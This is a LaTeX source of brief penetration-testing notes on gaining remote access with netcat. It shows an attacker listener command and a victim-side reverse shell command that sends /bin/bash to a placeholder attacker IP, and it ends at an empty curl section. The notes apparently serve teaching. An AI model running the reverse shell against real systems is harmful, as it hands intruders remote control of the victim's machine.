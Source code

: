 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\begin{document}
\hypertarget{gaining-access-throw-remote-code-execution}{%
\chapter*{Gaining access throw remote code execution}\label{gaining-access-throw-remote-code-execution}}

\hypertarget{listen-and-connection-with-netcat}{%
\section*{Listen and connection with netcat}\label{listen-and-connection-with-netcat}}

\textbf{Netcat} also known as \textbf{nc} is a utility that allows to open TCP or UDP connections throw the network.

How it work:

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  listener (attacker)

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  powned (victim)

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -e /bin/bash }\OperatorTok{<}\NormalTok{pirate_ip}\OperatorTok{>}\NormalTok{ 443}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

\hypertarget{connection-with-curl}{%
\section*{Connection with curl}\label{connection-with-curl}}
\end{document}

